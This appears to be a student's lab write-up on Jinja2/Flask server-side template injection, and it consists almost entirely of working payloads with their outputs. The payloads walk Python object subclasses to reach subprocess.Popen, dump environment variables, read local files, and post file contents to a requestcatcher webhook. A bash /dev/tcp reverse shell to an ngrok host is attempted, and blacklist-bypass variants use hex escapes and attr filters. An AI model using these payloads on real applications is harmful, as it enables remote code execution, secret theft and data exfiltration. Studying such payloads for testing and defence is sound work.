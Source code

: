Task:

Give unique ssti payloads for the given cases while following these conditions:
payloads must be as unique as possible ie if one starts with class.base.subclasses none others should start with it
OR you can use some other variant of the same payload like attr getattr instead of dot notation but again with these there should be at max two payloads looking similar

include the outputs of each part of payload eg for class.base.subclasses do class, then class.base and so on.
screenshots once in 5 paras but don't clutter them all around

Without blacklist:

1) return the index of urllib in subclasses()
```
{{__self__.__init__}}

<bound method Undefined.__init__ of Undefined>

{{__self__.__init__.__class__}} or {{().__class__}}
<class 'method'>

{{__self__.__init__.__class__.__base__}}
<class 'object'>

{{ __self__.__init__.__class__.__base__.__base__}}
None

{{__self__.__init__.__class__.__base__.__subclasses__}}
<built-in method __subclasses__ of type object at 0x00007FF8B2656750>

Final payload:
{{__self__.__init__.__class__.__base__.__subclasses__()}} 
```

Output:

![a](a.png)

11 instances of class urllib.
Index of <class 'urllib.request.Request'> : {{__self__.__init__.__class__.__base__.__subclasses__()[338]}} 

Could not figure out how to do this using the index() method.


2) get name of current python flask script

```
{{config.__class__.__init__.__globals__}}
```
![b](b.png)
```
{{config.__class__.__init__.__globals__.__builtins__}}
```
![c](c.png)
```
{config.__class__.__init__.__globals__.__builtins__.__import__}}
<built-in function __import__>

{{config.__class__.__init__.__globals__.__builtins__.__import__('__main__').__file__}}

```
Output:
c:\Users\risha\Rishabh extras\Programming\ssti.py


3) get all the current envvars
```
{{request.application.__globals__.__builtins__.__import__('os').environ}}
```

![d](d.png)


4) read a local file
{{get_flashed_messages.__globals__.__builtins__.open("test.py").read() }}

```
{{get_flashed_messages}}
<function get_flashed_messages at 0x000002C3647D1440>

{{get_flashed_messages.__globals__}}
```
![e](e.png)


5) run a command

```

{{ (""|attr("1")|attr("__class__"))}}
<class 'jinja2.runtime.Undefined'>


{{(""|attr("1")|attr("__class__")|attr("__base__")|attr("__subclasses__")())[258]}}
<class 'subprocess.Popen'>

{{((""|attr("1")|attr("__class__")|attr("base"))|attr("__subclasses__")()[258]('whoami', shell=True, stdout=-1)|attr("communicate"))}}

(b'test1\n', None)

```
![f](f.png)

6) send the contents of etc pass to  awebhook

{{request['__class__']['__init__']['__globals__']['__builtins__']['__import__']('requests')['post']['__call__']('https://a.requestcatcher.com',data={'file':request.__class__.__init__.__globals__.__builtins__.open.__call__("/etc/cracklib/cracklib.conf").read()})}}

![g](g.png)

![h](h.png)


7) rev shell

().__class__.__base__.__subclasses__()[258]('bash -c ‘exec bash -i &>/dev/tcp/<ngrok_IP>/<ngrok_port> <&1’', shell=True, stdout=-1).communicate()
Tried this ().__class__.__base__.__subclasses__()[259]('curl a.requestcatcher.com', shell=True, stdout=-1).communicate() and it works.
 Just have to figure out how to get it to connect to ngrok

Blacklist applied:

1){{request|attr([request.args.usc*2,request.args.class,request.args.usc*2]|join)}}&class=class&usc=_
{{request|attr(request.query_string[2:12].decode())|attr(request.query_string[15:23].decode())?c=__class__&d=__base__}}


Without ' or " constructing payloads is very difficult. It leaves very few options as far as I understand like the example one.
2){{''|attr('\x5f\x5fclass\x5f\x5f')|attr('\x5f\x5fbase\x5f\x5f')|attr('\x5f\x5fsubclasses\x5f\x5f')()}}

6){{request['x5f\x5fclass\x5f\x5f']['\x5f\x5finit\x5f\x5f']['\x5f\x5fglobals\x5f\x5f']['\x5f\x5fbuiltins\x5f\x5f']['\x5f\x5fim'+'port\x5f\x5f']('requests')['post']['\x5f\x5fcall\x5f\x5f']('https://a.requestcatcher.com',data={'file':request.\x5f\x5fclass\x5f\x5f.\x5f\x5finit\x5f\x5f.\x5f\x5fglobals\x5f\x5f.\x5f\x5fbuiltins\x5f\x5f.open.\x5f\x5fcall\x5f\x5f("/etc/cracklib/cracklib.conf").read()})}}


